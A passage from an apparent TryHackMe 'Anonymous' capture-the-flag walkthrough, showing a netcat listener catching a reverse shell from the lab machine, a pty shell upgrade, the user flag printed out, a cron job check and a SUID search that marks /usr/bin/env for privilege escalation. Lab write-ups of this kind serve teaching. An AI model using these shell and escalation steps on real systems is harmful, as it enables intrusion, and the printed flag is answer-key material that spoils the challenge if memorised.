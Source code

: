 ~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Anonymous/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.152.65] 42314
bash: cannot set terminal process group (1920): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
namelessone@anonymous:~$ python -c "import pty;pty.spawn('/bin/bash')"
~~~

#### User flag

Now if you list the files in our home directory, you can see the user flag:

~~~
namelessone@anonymous:~$ ls
pics
user.txt
namelessone@anonymous:~$ cat user.txt
90d6f992585815ff991e68748c414740
~~~

User flag: `90d6f992585815ff991e68748c414740`

### Q6 - root.txt

The first thing I did was checking the cronjobs, and we can confirm that `clean.sh` is running every minute:

~~~
namelessone@anonymous:~$ crontab -l | tail
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
* * * * * /var/ftp/scripts/clean.sh
~~~

#### Privilege Escalation

I ran `sudo -l` to check my sudo permissions, but I don't have the user's password, so I decided to check programs that are owned by root with the SUID bit set using `find` command:

~~~
namelessone@anonymous:~$ find / -type f -perm -u=s 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su

[REDACTED]

/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env      <--------------
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
~~~
